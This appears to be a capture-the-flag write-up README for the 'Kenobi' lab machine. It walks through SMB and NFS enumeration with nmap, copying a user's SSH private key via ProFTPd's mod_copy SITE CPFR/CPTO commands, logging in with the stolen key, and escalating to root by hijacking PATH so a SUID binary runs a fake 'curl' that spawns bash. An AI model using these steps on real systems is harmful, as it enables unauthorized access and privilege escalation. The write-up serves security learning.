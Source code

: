 ### [nmap.init.out](./nmap.init.out)
### [nmap.111.out](./nmap.111.out)
### [nmap.445.out](./nmap.445.out)
### [smb_dl--log.txt](./smb_dl--log.txt)
### [nc.21.txt](./nc.21.txt)
### [strings.usr.bin.menu.txt](./strings.usr.bin.menu.txt)
### [kenobi_id_rsa.pub](./kenobi_id_rsa.pub)
### [kenobi_id_rsa](./kenobi_id_rsa)

## SMB

![](https://i.imgur.com/bkgVNy3.png)

`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP`

use `smbclient` to connect `smbget` to download files after login
- `smbclient //<ip>/anonymous`
- `smbget -R smb://<ip>/anonymous`

```
nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve.

In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.
```

```bash
$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.168.251
```

## ProFtpd

```
The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.
```

```bash
$ nc RHOST RPORT
SITE CPFR /home/kenobi/.ssh
SITE CPTO /var/tmp/ssh

# mount from host
$ mkdir /media/kenobinfs
$ mount RHOST:/var /media/kenobinfs

$ chown 600 KENOBI_SSH_KEY
$ ssh -i KENOBI_SSH_KEY kenobi@RHOST
```

##  Privilege Escalation with Path Variable Manipulation

![](https://i.imgur.com/LN2uOCJ.png)

| Permission | On Files | On Directories |
|--------------|-----------|------------|
| SUID Bit | User executes the file with permissions of the file owner | - |
| SGID Bit | User executes the file with the permission of the group owner. | File created in directory gets the same group owner. |
| Sticky Bit | No meaning | Users are prevented from deleting files from other users. |


## To search the a system for these type of files run the following:
```bash
$ find / -perm -u=s -type f 2>/dev/null
```

```
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu <== 🤔
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```

- `strings` is a command on Linux that looks for human readable strings on a binary. => `strings.usr.bin.menu.txt`
- Look for `the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).`
    - in this case `curl`

```bash
# in /tmp

$ echo /bin/bash > curl
$ chmod 777 curl
$ export PATH=/tmp:$PATH
$ /usr/bin/menu
```
